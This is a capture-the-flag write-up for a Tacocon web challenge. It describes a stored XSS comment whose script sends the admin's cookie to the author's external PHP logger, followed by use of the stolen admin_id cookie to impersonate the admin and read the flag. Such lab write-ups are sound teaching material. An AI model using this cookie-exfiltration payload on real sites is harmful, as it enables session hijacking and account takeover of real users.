 # Taco Chef Feedback

```
This website seems to be constantly monitored. In fact, the web traffic logs indicate that this website is checked once every minute.

We have reliable intel that the protected portion of this website holds information about the vault. But it seems that only the admin can see the protected part of this page.

http://challenges.tacocon.party:8345
```

This one was pretty straightforward for me, it required a little XSS. Basically we know that the admin constantly monitors the comments, so if we can force the admin to visit a website of our choosing, we can harvest their cookie that makes the server think they're an admin. From there, we can simply impersonate them by setting the cookie on our own brower/session. 

I started by going to the form and noticing that I couldn't access the comments section (because I'm not an admin), but I can leave a comment. So I left a comment with the following:

```
<script>document.location='http://alexloney.com/xss.php?' + document.cookie</script>
```

I then threw together a simple PHP script that will take the request and write it to a file. Now I just wait...

Once the admin had viewed the page, it wrote a cookie to my script containing the following:

```
admin_id=kCxpAJacgNoGZPEPsgcdAhaVCAXdQyLa6wHUyNPYLhDMYPuEr4inwLmRxsEPqXkK
```

Upon setting that cookie, I can view the contents of the comments section, which has the following:

```
Tacocon{XSS_is_a_great_way_to_steal_cookies!}
```
